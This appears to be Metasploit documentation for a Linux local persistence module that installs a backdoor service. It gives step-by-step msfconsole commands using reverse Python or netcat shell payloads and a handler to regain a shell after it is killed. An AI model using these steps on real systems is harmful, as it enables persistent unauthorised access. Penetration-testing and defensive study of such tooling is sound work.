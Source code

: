### Creating A Testing Environment

  This module has been tested against:

1. Kali 2.0 (System V)
2. Ubuntu 14.04 (Upstart)
3. Ubuntu 16.04 (systemd)
4. Ubuntu 16.04 (systemd user)
5. Centos 5 (System V)
6. Fedora 18 (systemd)
7. Fedora 20 (systemd)

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use exploit/linux/local/service_persistence`
  4. Do: `set session #`
  5. Do: `set verbose true`
  6. Do: `set payload cmd/unix/reverse_python` or `payload cmd/unix/reverse_netcat` depending on system.
  7. Optional Do: `set SHELLAPTH /bin` if needed for compatibility on remote system.
  8. Do: `set lhost`
  9. Do: `exploit`
  10. Do: `use exploit/multi/handler`
  11. Do: `set payload cmd/unix/reverse_python` or `payload cmd/unix/reverse_netcat` depending on system.
  12. Do: `set lhost`
  13. Do: `exploit -j`
  14. Kill your shell (if System V, reboot target).  Upstart/systemd wait 10sec
  15. Get Shell

## Options

**target**

  There are several targets selectable, which all have their own issues.

0. Automatic: Detect the service handler automatically based on running `which` to find the admin binaries
1. System V: There is no automated restart, so while you'll get a shell, if it crashes, you'll need to wait for a init shift to restart the process automatically (like a reboot).  This logs to syslog or /var/log/<process>.log and .err
2. Upstart: Logs to its own file.  This module is set to restart the shell after a 10sec pause, and do this forever.
3. systemd and systemd user: This module is set to restart the shell after a 10sec pause, and do this forever.

**BACKDOOR_PATH**
  
  If you need to change the location where the backdoor is written (like on CentOS 5), it can be done here.  Default is /usr/local/bin
